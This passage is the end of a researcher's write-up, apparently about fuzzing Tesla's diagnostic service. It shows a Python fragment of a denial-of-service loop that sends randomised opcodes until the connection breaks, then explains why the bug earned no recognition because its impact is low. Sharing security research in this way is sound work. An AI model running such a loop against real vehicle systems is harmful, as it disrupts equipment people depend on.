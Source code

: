 ```python
                        send_data(s, vuln_msg, choice([0x0, 0x3, 0x4, 0x5, 0x6, 0x7, 0x8, 0xb, 0xc, 0xd, 0xe, 0xf]))
                    except (ConnectionResetError, BrokenPipeError, ConnectionAbortedError):
                        print("DOS Succeeded!")
                        exit()
                    if d.decode("utf-8", errors="replace").find("hermes_status") > -1:
                        s.close()
                        break
        except KeyboardInterrupt: 
            exit()
        except ValueError:
            continue
```

## Low impact

One of the most important things about finding bugs is that just because something causes an unintended behavior doesn't mean it's a vulnerability. Since Tesla's diagnostic function requires a local connection to a PC, and even a DOS attack can be reversed by rebooting the vehicle, the impact of the attack is minimal, so it's hard to come up with a valid attack scenario, so I didn't get any recognition for the bug I reported.

It's unfortunate, but the point is that I enjoyed the process of finding vulnerabilities and learned a lot, and I'm happy to share the experience.


